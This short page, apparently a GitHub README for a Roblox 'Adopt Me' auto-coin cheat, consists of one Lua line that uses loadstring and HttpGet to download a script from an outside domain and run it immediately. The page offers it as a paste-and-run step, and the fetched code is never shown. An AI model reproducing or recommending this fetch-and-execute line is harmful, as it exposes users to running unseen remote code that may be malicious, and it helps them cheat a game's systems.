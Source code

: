 # ADOPT-ME-OCEAN-EVENT-AUTO-GET-COINS
loadstring(game:HttpGet("https://egorikusa.space/1af91b8f8e3ad08f317cf46a.lua", true))()
